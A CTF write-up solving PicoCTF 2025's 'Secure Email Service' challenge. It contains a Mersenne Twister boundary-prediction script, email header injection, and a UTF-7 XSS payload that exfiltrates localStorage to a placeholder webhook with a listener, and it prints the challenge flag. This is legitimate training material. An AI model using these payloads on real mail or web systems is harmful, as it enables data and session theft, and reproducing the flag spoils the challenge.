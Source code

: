 # PicoCTF 2025 - Secure Email Service (ID 496)
I have finished the secure-email-service challenge (Hard level) from PicoCTF, and here is the explanation!
#
Challenge Overview:
- Category: Web Exploitation
- Difficulty: Hard
- Points: 500
- Flag: `picoCTF{always_a_step_ahead_fb2a1a8c}`

Key Mechanics:
1. S/MIME signed emails render HTML in shadow DOM
2. Admin bot views emails with flag in localStorage
3. Vulnerable to header injection and boundary prediction
#
## 1. Setup & Reconnaissance
```bash
# Get credentials
INSTANCE_URL="https://your-instance-url.ctf"
USERNAME=$(curl -s "$INSTANCE_URL" | grep -oP 'user@ses\w*')
PASSWORD=$(curl -s "$INSTANCE_URL/api/password" | jq -r '.password')

# Login and get session cookie
SESSION_COOKIE=$(curl -s -X POST "$INSTANCE_URL/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\":\"$USERNAME\",\"password\":\"$PASSWORD\"}" \
  | jq -r '.session_cookie')
```
## 2. Boundary Prediction (Mersenne Twister Crack)
```python
import re
import requests
from z3_crack import Untwister

def get_boundary(session, to, subject, body):
    """Extract boundary from sent email"""
    resp = session.post(f'{INSTANCE_URL}/api/send',
                       json={'to': to, 'subject': subject, 'body': body})
    return int(re.findall(r"===(\d+)==", resp.json()['data'])[0])

# Initialize session and cracker
session = requests.Session()
session.cookies.set('session', SESSION_COOKIE)
ut = Untwister()

# Collect 800 boundaries for cracking
for i in range(800):
    boundary = get_boundary(session, USERNAME, f"Probe {i}", "test")
    b_bin = bin(boundary)[2:].zfill(63)
    ut.submit(b_bin[31:])  # Lower 32 bits
    ut.submit(b_bin[:31] + '?')  # Upper 31 bits + padding

# Predict admin's reply boundary
ut.get_random().getrandbits(63)  # Skip our payload boundary
ADMIN_BOUNDARY = f"{ut.get_random().getrandbits(63):019d}"
```
## 3. Craft Malicious Payload
```python
import base64

# UTF-7 encoded XSS payload
XSS_PAYLOAD = """
+ADw-img src=+/x onerror=eval(atob('
    fetch(`https://your-webhook.url/?flag=${btoa(localStorage.flag)}`)
'))+AD4-
"""

# MIME encoded-word wrapper
ENCODED_PAYLOAD = base64.b64encode(
    f"""
--{ADMIN_BOUNDARY}
Content-Type: text/html; charset=utf-7

{XSS_PAYLOAD.strip()}
--{ADMIN_BOUNDARY}--
""".encode('utf-8')
).decode('ascii')

# Final subject with header injection
MALICIOUS_SUBJECT = (
    f"Hi =?ISO-8859-1?B?{ENCODED_PAYLOAD}?= \n"
    f"From : admin@ses\n"
    f"Content-Type: multipart/mixed; boundary=\"{ADMIN_BOUNDARY}\""
)
```
## 4. Send Exploit & Trigger Bot
```bash
# Send malicious email to admin
curl -X POST "$INSTANCE_URL/api/send" \
  -H "Content-Type: application/json" \
  -H "Cookie: session=$SESSION_COOKIE" \
  -d "{
    \"to\": \"admin@ses\",
    \"subject\": \"$(echo -e "$MALICIOUS_SUBJECT" | jq -Rs .)\",
    \"body\": \"Impossible W\"
  }"

# Trigger admin bot twice
curl -X POST "$INSTANCE_URL/api/admin_bot" \
  -H "Cookie: session=$SESSION_COOKIE"

sleep 5  # Wait for first processing

curl -X POST "$INSTANCE_URL/api/admin_bot" \
  -H "Cookie: session=$SESSION_COOKIE"
```
## 5. Flag Exfiltration
```javascript
// Webhook receiver (Node.js)
const http = require('http');
const server = http.createServer((req, res) => {
    const flag = Buffer.from(
        req.url.split('?flag=')[1],
        'base64'
    ).toString('utf-8');

    console.log(`[+] Flag captured: ${flag}`);
    res.end();
});

server.listen(8080, () => {
    console.log('Listening for flag on port 8080...');
});
```
# Final Output
webhook output:

[+] Flag captured: `picoCTF{always_a_step_ahead_fb2a1a8c}`
#
# Dependencies
```bash
# Install required packages for webhook testing
pip install requests z3-solver pycryptodome
npm install -g requestcatcher
```
#

Don't forget to visit my PicoCTF profile on:

https://play.picoctf.org/users/ilhambagas
